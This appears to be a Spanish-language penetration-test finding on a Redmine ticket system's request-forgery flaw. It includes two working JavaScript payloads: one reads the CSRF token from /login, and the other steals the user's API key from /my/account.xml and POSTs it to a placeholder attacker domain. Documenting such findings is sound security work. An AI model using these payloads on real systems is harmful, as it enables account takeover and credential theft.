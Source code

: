 Si la víctima es un usuario normal, un ataque CSRF exitoso puede obligar al usuario a realizar solicitudes de cambio de estado, como transferir fondos, cambiar su dirección de correo electrónico, etc. Si la víctima es una cuenta administrativa, CSRF puede comprometer toda la aplicación web.

Referencia: [Cross Site Request Forgery (CSRF) | OWASP Foundation](https://owasp.org/www-community/attacks/csrf) 

La vulnerabilidad en tickets permite CSRF. El siguiente exploit fuerza a la víctima a hacer una GET request autenticada a /login, y en el cuerpo de la respuesta se puede ver el contenido del token CSRF. **En general, la página confía en las requests emitidas por la vulnerabilidad a recursos del mismo origen.**
```
El payload a ejecutar:
------------------
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function(){
{if(xhr.readyState==4){prompt('hacked'+xhr.response)}};
xhr.open('GET','/login',true);
xhr.withCredentials=true;
xhr.send(null);
------------------
```

Genera un blockquote que cuando se clickea alerta el contenido de la request a /login.

![[Pasted image 20231027162632.png]]
### Exfiltrar datos
Además, **la vulnerabilidad permite emitir requests a endpoints de origen externo para exfiltrar datos mediante CSRF**.

Al exploit anterior se le agregó que luego de recibir la información, esta se enviara a un origen externo controlado por "el atacante". Esto se hace forzando al browser de la víctima a hacer una request POST con el contenido de la información obtenida a su dominio. Permitiendo así exfiltrar la información del usuario. 

Investigando la aplicación y la API de redmine, se encontró que **al hacer una GET request autenticada a /my/account.xml, se incluye la API_KEY del usuario en la respuesta**.



```
Payload a ejecutar
-------------------
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function(){
{if(xhr.readyState==4){
prompt('hacked'+xhr.response)
fetch('https://[dominioAtacante]/',{method:'POST',mode:'no-cors',body:xhr.response}
}};
xhr.open('GET','/my/account.xml',true);
xhr.withCredentials=true;
xhr.send(null);
------------------
```
![[Pasted image 20231027114730.png]]
Este contenido fue recibido por un servidor externo (en el exploit de ejemplo \[dominioAtacante\]).
